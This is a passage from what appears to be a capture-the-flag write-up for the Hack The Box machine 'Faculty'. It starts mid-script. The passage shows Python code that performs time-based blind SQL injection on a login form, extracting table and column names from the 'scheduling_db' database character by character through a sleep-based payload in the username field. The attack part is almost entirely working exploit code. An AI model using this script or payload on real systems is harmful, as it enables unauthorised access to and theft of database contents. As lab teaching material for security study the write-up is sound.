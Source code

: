 ```python
                    tables += character
                    p2.status(tables)
                    break
        tables += ","

```
**Example:**
![](/assets/img/faculty-htb/tables_sqli.png)

Now we got the **tables** we need to get the **columns**, update the script one more time.

```python
def sqli():

    columns = ""

    p1 = log.progress("Brute Force")
    p1.status("Starting Attack")


    p2 = log.progress("Columns [DB:scheduling_db][Table:users]")
    for db in range(0, 7):

        for position in range(1, 20):

            for character in characters:


                post_data = {
                    'username' : "admin' and if(substr((select column_name from information_schema.columns where table_schema = 'scheduling_db' and table_name = 'users' limit %d,1),%d,1)='%s',sleep(1.5),1)-- -" % (db,position,character),
                    'password' : 'password'

                }

                p1.status(post_data['username'])

                time_start = time.time()

                r = requests.post(login_url, data=post_data)

                time_end = time.time()

                if time_end - time_start > 1.5:
                    columns += character
                    p2.status(columns)
                    break
        columns += ","
```
**Example:**
![](/assets/img/faculty-htb/columns_sqli.png)
